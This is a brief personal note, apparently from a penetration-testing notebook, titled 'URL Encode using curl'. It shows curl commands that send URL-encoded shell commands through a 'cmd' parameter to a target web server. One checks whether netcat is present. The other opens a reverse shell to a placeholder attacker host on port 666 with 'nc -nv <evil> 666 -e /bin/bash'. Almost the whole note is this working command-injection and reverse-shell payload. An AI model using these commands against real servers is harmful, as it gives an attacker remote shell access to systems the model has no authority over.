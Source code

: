 ```yaml
---
title: URL Encode using curl
updated: 2025-04-29 06:57:43Z
created: 2025-04-29 06:53:49Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


Examples:
Check if **nc** is installed
`curl http://<target_url> --data-urlencode "cmd=which nc"`

Run a reverse shell to kali on 666
`curl http://target_url --data-urlencode "cmd=nc -nv <evil> 666 -e /bin/bash"`